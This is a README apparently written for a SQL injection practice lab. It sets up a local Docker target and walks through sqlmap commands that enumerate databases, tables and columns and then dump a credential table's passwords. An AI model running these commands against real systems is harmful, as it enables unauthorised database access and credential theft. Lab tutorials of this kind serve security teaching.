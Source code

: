 # Attacking Sql Injection
## Prepared the eviroment .
1. Dowload sqlmap in  Linux
```bash
 sudo apt install sqlmap
```
- Clone project
```bash
git clone https://github.com/NMCuonG08/SqlMap.git
```
2. Attacking
 
Open Docker desktop and open your terminal 

```bash
cd SqlMap
```  
```bash
docker-compose up -d
```  
 
![image](https://github.com/user-attachments/assets/21bfbdef-92ff-43bf-aa56-c6ba264b5953)

-  Enter a random value to login and get an url `http://localhost:3128/unsafe_home.php?username=1&Password=1`

![image](https://github.com/user-attachments/assets/44aa0edc-9229-46e1-8b8e-11869bff24fb)

- option `-u`:  Target URL
- opntion `--batch` : Automatically decide on the best payloads to use

  ```bash
  sqlmap -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" --batch
  ```
![image](https://github.com/user-attachments/assets/e9869cb7-ccca-4145-be81-90aca41cada5)

- option `--dbs`:  Force back-end DBMS to provided value

  ```bash
   sqlmap -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" --batch --dbs
  ```
  
![image](https://github.com/user-attachments/assets/6e7245d6-a1b8-49c5-b89e-cc39bdfc5459)

- option `-D` and `--tables`: DBMS database to enumerate and Enumerate DBMS database tables

```bash
  sqlmap -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" --batch -D sqllab_users --tables
```

![image](https://github.com/user-attachments/assets/9a9e257a-7b84-4e66-9832-38ffc2e557b9)

- option `-T` and `--columns`: Enumerate DBMS database tables and  DBMS database table(s) to enumerate

```bash
sqlmap -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" --batch -D sqllab_users -T credential --columns
```

![image](https://github.com/user-attachments/assets/16c04b4b-699c-4d4c-9351-32d7213ab98a)

- option `--dump`:   Dump DBMS database table entries

```bash
sqlmap -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" --batch -D sqllab_users -T credential --columns --dump
```

![image](https://github.com/user-attachments/assets/e01f8355-5301-48d4-bd70-3755f18f02fd)


- opntion `-C COL `: DBMS database table column(s) to enumerate

```bash
   sqlmap -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" --batch -D sqllab_users -T credential --columns -C Password --dump
```

![image](https://github.com/user-attachments/assets/026557fa-3b30-4de5-a914-c4bc802a86de)







